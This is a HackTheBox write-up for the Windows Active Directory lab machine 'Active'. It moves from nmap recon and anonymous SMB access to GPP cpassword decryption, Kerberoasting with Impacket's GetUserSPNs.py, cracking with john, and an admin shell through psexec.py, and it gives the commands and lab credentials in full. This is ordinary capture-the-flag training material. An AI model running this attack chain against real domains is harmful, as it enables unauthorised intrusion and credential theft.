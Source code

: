 ```yaml
---
layout: single
title: "HTB - Active Writeup - 10.10.10.100"
date: 2020-06-16 16:49:23 +0100
categories: hackthebox
excerpt: My walkthrough / writeup of the HTB AD machine Active.
---
```


![HTB](/images/hackthebox-writeups/active/2020-06-16_16-56.png)

# HackTheBox - Active - 10.10.10.100

Active is a 30 point medium rated machine on hackthebox, it involved locating a groups.xml file and decrypting the cpassword inside to get user. Root required the use of `GetUserSPNs.py` to get the tgt of the Admin user who had a service principal name set and finally, `psexec.py` to gain an admin shell.

## 1. Recon

To start this box off we will do an nmap scan of the target machine, 10.10.10.100 `nmap -sC -sV -oA nmap/active 10.10.10.100`

### Nmap Scan Results

```
# Nmap 7.80 scan initiated Wed Apr 29 12:08:45 2020 as: nmap -sC -sV -oA nmap/active 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.056s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-29 11:10:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

There are a few things to note here, firstly we have kerberos (port 80), ldap (port 389), rpc (port 135) and smb open on port 445. This tells us that this machine is probably an active directory domain controller, if it was not previously obvious by the machines name.

### SMB Shares

Firstly we will start by listing smb shares using anonymous credentials: `smbclient -L \\\\10.10.10.100\\ -U ""`

![HTB](/images/hackthebox-writeups/active/2020-06-16_17-46.png)

From this we can see an unusual share, _Replication_ Let's try and view the conents of this share

## 2. Enumeration

Now to explore the _Replication_ Share, we will use smbclient again: `smbclient \\\\10.10.10.100\\Replication`

![Share](/images/hackthebox-writeups/active/2020-06-16_17-52.png)

and as you can see we can access the share using anonymous login, now we can download all the files using the following commands:
`prompt OFF` `recurse ON` `mget *`

![downloading-files](/images/hackthebox-writeups/active/2020-06-16_17-55.png)

### Groups.xml

The file of note here is the Groups.xml file, this file is used by a windows service called _Group Policy Preferences_ which allows domain admins to roll out passwords for local Administrators over Group Policy, the decryption key was leaked so now any password located inside a Groups.xml file can be decrypted. You can read more about this [Here](https://adsecurity.org/?p=2288) at adsecurity.org

Inside the groups.xml file we see:
![groups-xml](/images/hackthebox-writeups/active/2020-06-16_19-30.png)

The cpassword string is the encrypted password for the user `SVC_TGS`.

## 3. Exploitation

### Decrypting the cpassword

Kali has a built in utility called `gpp-decrypt` which will decrypt the cpassword string, you can read more about this tool [here](https://github.com/BustedSec/gpp-decrypt).

Now to decrypt the cpassword string from before we can type, `gpp-decrypt edBSHOwhZLTjt/QS9FeIc----------------Q`
![gpp-decrypt](/images/hackthebox-writeups/active/2020-06-16_19-35.png)

We now have the credentials of the user `SVC_TGS:GPPstillStandingStrong2k18` and we can attempt to connect to the **Users** SMB Share to grab `user.txt`

`smbclient \\\\10.10.10.100\\Users -U svc_tgs`
![user](/images/hackthebox-writeups/active/user.gif)

## 4. Privesc to Domain Admin

### Service Principal Names (SPN's)

Our user account `SVC_TGS` is able to find service principal names associated with user accounts in the domain, you could have found this out by having a look at the username and to see the TGT string at the end which signifies that this account may be able to see SPN's. Through this we are able to get the krb5-tgt of the `Administrator` account using a tool called `GetUserSPNs.py` from the Impacket Repo on [GitHub](https://github.com/SecureAuthCorp/impacket). If you want to know more about this attack I will leave a link to an ADSecurity article [here](https://adsecurity.org/?p=3466).

### Getting the TGT of the Admin User

The syntax for this command is as follows:
`GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -request -dc-ip 10.10.10.100`

-dc-ip is the ip of the domain controller, 10.10.10.100
-request means that we want to request the tgt of any user that has a SPN

![SPN](/images/hackthebox-writeups/active/2020-06-16_20-13.png)

Bingo!! We can now take this TGT to john the ripper to crack

#### Cracking the TGT

We will use john the ripper to crack the TGT, first by placing it in a file named `admin.hash` and then running the following command to run it against the rockyou.txt wordlist.

`john -w=/usr/share/wordlists/rockyou.txt admin.hash`
![tgt-cracked](/images/hackthebox-writeups/active/cracking-tgt.gif)

This gives us the credentials, `Administrator:Ticketmaster1968`

### PSExec

Now that we hgave the admin credentials we can use the `psexec.py` script from Impacket to gain a shell, if you would like to know more about the psexec.py script you can have a look [here](https://www.sans.org/blog/psexec-python-rocks/).

`psexec.py active.htb/Administrator:Ticketmaster1968`

![rooted](/images/hackthebox-writeups/active/root.gif)

## Rooted!!

If you enjoyed my write up or found it useful please check out my htb profile linked below and give a +rep

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)
